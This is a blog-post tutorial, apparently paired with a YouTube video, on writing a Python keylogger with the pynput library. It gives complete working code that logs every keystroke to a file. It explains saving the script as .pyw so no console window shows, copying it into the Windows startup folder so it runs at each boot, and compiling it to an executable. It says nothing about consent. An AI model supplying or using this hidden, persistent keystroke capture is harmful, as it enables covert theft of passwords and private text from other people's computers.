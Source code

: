 ```yaml
---
templateKey: blog-post
title: "Python Keylogger"
date: 2017-12-15T12:00:00.000Z
category: YouTube
tags: [python, keyboard, logging, pynput]
image: feature.jpg
description: "This is a Python keylogger which will work on Windows, Mac and Linux. This script uses the pynput module. This python keylogger will store typed keys in a file in order of when they were typed."
disableToc: false
hidden: false
---
```


{% with video_id="x8GbWt56TlY" %}{% include 'blog-post-embedYouTube.html' %}{% endwith %}

## PIP

If you haven't used or setup pip before, go to my tutorial at [how-to-setup-pythons-pip](/blog/post/how-to-setup-pythons-pip/) to setup pip. This is needed to install pynput to get keys typed.

## Installing Pynput

We will be using the pynput module to listen to mouse events. To install this module execute `pip install pynput` in cmd. Watch the output to make sure no errors have occurred; it will tell you when the module has been successfully installed.

![Installing pynput](../how-to-get-mouse-clicks-with-python/pynput1.png)

To double-check that it was installed successfully, open up IDLE and execute the command `import pynput`; no errors should occur.

![Testing pynput](../how-to-get-mouse-clicks-with-python/pynput2.png)

## Building the Keylogger

Create a new Python file and import Key and Listener from pynput.keyboard and the logging module.

```python
from pynput.keyboard import Key, Listener
import logging
```

Next set a variable which points to where you want to save the logs; leave this as an empty string to save the log beside the python script. Then set up the logging module as shown below.

```python
log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
```

Then create a definition for keypresses called on_press which takes key as a parameter. In this definition, we want to log the key using the logging info method. The key will need to be casted to a string before logging it.

```python
def on_press(key):
    logging.info(str(key))
```

Next setup an instance of Listener and define the on_press method in a `with` statement and then `.join()` the thread to the main thread.

```python
with Listener(on_press=on_press) as listener:
    listener.join()
```

Now save the file with a .pyw file extension to make sure that the console doesn't appear when it's run.

![Save as .pyw](pyw.png)

Run the script in IDLE to make sure that you haven't made any errors. Errors will show up in here if some do occur.

## Autostart

To make the script run on startup first go to your startup folder. Hold down the windows button and press "R" or type run in the windows menu to make the run dialog appear.

![shell:startup example](run.png)

Now type `shell:startup` in the dialog and press enter. This will open a window at your startup folder.

Copy the keylogger into this folder and then create a new folder somewhere else for logs to be saved to. Make sure this folder is not in the startup folder or it will be opened every time the computer has started. Open the keylogger in IDLE and now change the log_dir to the location of the folder you just created. Make sure this folder path uses forward slashes ('/') and contains a forward slash at the end.

## Stopping the Keylogger

To stop the keylogger, open up task manager and look for anything named python as shown below due to windows just showing program names. If you have an older version of windows, I recommend looking for pythonw.exe. Right-click on this and end the task.

![Python in task manager](taskmgr.png)

## Final Script

```python
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

## Compile to EXE

Want to convert this .py to a .exe? Head over to my tutorial at [convert-py-to-exe](/blog/post/convert-py-to-exe/) to do it in a few easy steps. This tutorial also shows you how to remove the console that shows up, make one file executables and even add an icon.

Converting to .exe will allow the script to run on Windows computers without python installed (python is pre-installed on Mac and most Linux computers)

## Common Issues and Questions

### It doesn't work (general things to try)

Make sure you run the script in IDLE to check for errors you have made

### 'python' is not recognized as an internal or external command

Python hasn't been installed or it hasn't been installed properly. Go to [how-to-setup-pythons-pip](/blog/post/how-to-setup-pythons-pip/) and follow the tutorial. Just before you enter the scripts folder into the path variable, remove the "\scripts\" part at the end. You will also want to add another path with "\scripts\" to have pip.

### Where are the log files?

They will be located next to the python file (in the current directory for more advanced users). If it hasn't appeared, make sure you run the script in IDLE to check for errors you have made.

### ModuleNotFoundError/ImportError: No module named 'pynput'

Did you install pynput? This error will not occur if you installed it properly. If you have multiple versions of Python, make sure you are installing pynput on the same version as what you are running the script with.

### I got a SyntaxError

Syntax errors are caused by you and there is nothing I can offer to fix it apart from telling you to read the error. They always say where the error is in the output using a ^. Generally, people that get this issue have incorrect indentation, brackets in the wrong place or something spelt wrong. You can read about SyntaxError on Python's docs [here](https://docs.python.org/2/tutorial/errors.html#syntax-errors).

### How can I stop the listener?

As documented at [https://pythonhosted.org/pynput/keyboard.html](https://pythonhosted.org/pynput/keyboard.html) you can use pynput.keyboard.Listener.stop() to stop listening.

### "Open command window here" isn't shown when I shift right-click?

Make sure you are holding down shift. If you are using new versions of Windows, this has been replaced by "Open PowerShell Window Here". Using this method will work exactly the same for this tutorial; so go ahead and use PowerShell.
